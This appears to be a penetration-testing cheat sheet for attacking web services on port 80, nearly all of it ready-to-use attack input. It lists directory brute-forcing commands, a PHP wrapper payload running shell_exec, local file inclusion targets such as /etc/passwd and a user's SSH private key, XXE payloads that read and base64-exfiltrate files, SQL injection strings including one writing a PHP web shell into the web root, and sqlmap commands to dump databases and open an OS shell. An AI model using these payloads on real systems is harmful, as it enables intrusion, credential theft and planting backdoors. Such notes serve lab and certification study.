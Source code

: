 # 80 - HTTP

```
gobuster dir -u <rhost> -w <wordlist> -t 50 -x php,txt
# also bruteforce extensions (php, txt, ...)
```

`< > ' " { } ;` dangerous special characters to check for

## Default admin controll

```text
/manager/html -> Tomcat
/phpmyadmin -> phpMyAdmin
/cdn-cgi
```

## Default files to check

```text
robots.txt
sitemap.xml

# always check for listable folders
```

## Nobrain tools

```text
nikto -host=http://<rhost>
dirb -r http://<rhost>
```

## PHP wrappers

```text
index.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

## Files readable by any user for local file inclusion

```text
/etc/passwd
```

```text
c:/windows/win.ini
c:/boot.ini
c:/windows/system32/drivers/etc/hosts
c:\Users\<username>\.ssh\id_rsa
```

## XXE

```text

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY yz SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
    <quantity>3</quantity>
    <item>&yz;</item>
    <address>17th Estate, CA</address>
</order>
```

```text
<?xml version = "1.0"?>
<!DOCTYPE replace [
    <!ENTITY yz SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<order>
    <quantity>5</quantity>
    <item>&yz;</item>
    <address>vffvf</address>
</order>
```

## SQLi

```text
admin' OR 2=2; #
admin' OR 2=2 LIMIT 1; #
index.php?id=1 union all select 1, 2, 3,....
index.php?id=1 union all select 1, 2, @@version
index.php?id=1 union all select 1, 2, table_name from information_achema.tables
index.php?id=1 union all select 1, 2, column_name from information_achema.columns WHERE table_name='users'
index.php?id=1 union all select 1, username, password from users
index.php?id=1 union all select 1, 2, load_file('C:\boot.ini')
index.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'C:\xampp\htdocs\yz.php'
sqlmap -u http://<rhost>/index.php?id=1 -p "id"
sqlmap -u http://<rhost>/index.php?id=1 -p "id" --dbms=mysql --dump
sqlmap -u http://<rhost>/index.php?id=1 -p "id" --dbms=mysql --os-shell
```

```text
sqlmap -u 'http://<rhost>/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls" [--os-shell]
```

### Default languages

```text
IIS -> .aspx
Tomcat -> .war
```

